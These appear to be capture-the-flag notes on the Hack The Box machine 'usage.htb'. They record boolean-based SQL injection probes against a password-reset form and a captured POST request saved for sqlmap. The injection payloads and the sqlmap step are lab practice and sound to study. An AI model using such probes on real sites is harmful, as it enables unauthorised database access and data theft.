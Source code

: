 
created account
logged in
checked pages
logged out

![[Images/Pasted image 20240426001639.png|700]]

test@test.test'                          server error = sql injection
test@test.test' and 'a'='a          success
test@test.test' and @@version='a      success, would have failed for some sql versions
test@test.test

![[Images/Pasted image 20240426010352.png]]
if you change the last one to b you get a fail


reset password page - sql injection
```http
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IlpIaWVFR3pTRDFWNEljUnV6UlNLbFE9PSIsInZhbHVlIjoibHRQNkh2bzJFMHRma1g5RzhnYVZsU0NlZndJYmwveUFIbGpGSlpaZzNSRVRrTzV1K21tOUkvd1Nhb3lzOWsvMWhjZ2dKa09mSGZpYXV3Mytwak9CK2w5b3VhRkJjdVB6aVNHSmExSGt1TTVxZWhRTHoyOUcwa291b1I1Y3ZwemkiLCJtYWMiOiI2NmRhYzViNjI1ZmQ3NWNiMTc2ODJlOGEyOTViNjBiZWE5NjhmMjEwOTgzOWRlNTE2NWUxM2I4ODgxNDFhNmQ1IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlRQdWVSbTFsd1JCYWEvb2llSFhSM1E9PSIsInZhbHVlIjoiQVc4NW1NbUVjOW54QXNiODhhd2JGTUdlVnhLZ2J6ZW0wRXBpd1FqajV3enJVcHlPUnpna1hJaVpJVllTMmZqSDd3NkFwYjYxZVdNTTU4VW5WZm9qWW1aY2ZaSjhWNWNpNkZnMU8vdHdjTUdTVEVJcW4wK3ovTm1IdE1TS0RUVTAiLCJtYWMiOiIzMjcxZDM1YmNmMjFlMWE0YjBlMTVhYzM2ZWJkNGRjODEzNzgxYjNjODdmOTIzN2E5MzI4NTZkNjcxYzEyY2RmIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

_token=tvzDHT90bHURVbNB3X94WeliILj5EYxGZkbJEw30&email=test%40test.test
```

saving as request.txt
sending to sqlmap